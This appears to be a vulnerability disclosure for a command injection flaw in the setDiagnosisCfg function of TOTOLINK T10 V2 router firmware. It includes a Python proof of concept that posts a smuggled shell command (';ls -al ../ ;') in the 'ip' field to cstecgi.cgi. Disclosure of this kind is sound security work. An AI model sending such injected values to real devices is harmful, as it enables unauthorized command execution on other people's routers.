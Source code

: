 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://totolink.com.my/products/t10/

## Affected version

T10 V2_Firmware V2_V4.1.8cu.5207

## Vulnerability details

In the T10 V2_Firmware V2_V4.1.8cu.5207 firmware has a command injection vulnerability in the `setDiagnosisCfg` function. The `Var` variable receives the `ip` parameter from a POST request. However, since the user can control the input of `ip`, the `system` can cause a command injection vulnerability.

![image-20240902181559657](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902181559657.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"ip":";ls -al ../ ;","topicurl":"setDiagnosisCfg"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721213628055](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721213628055.png)
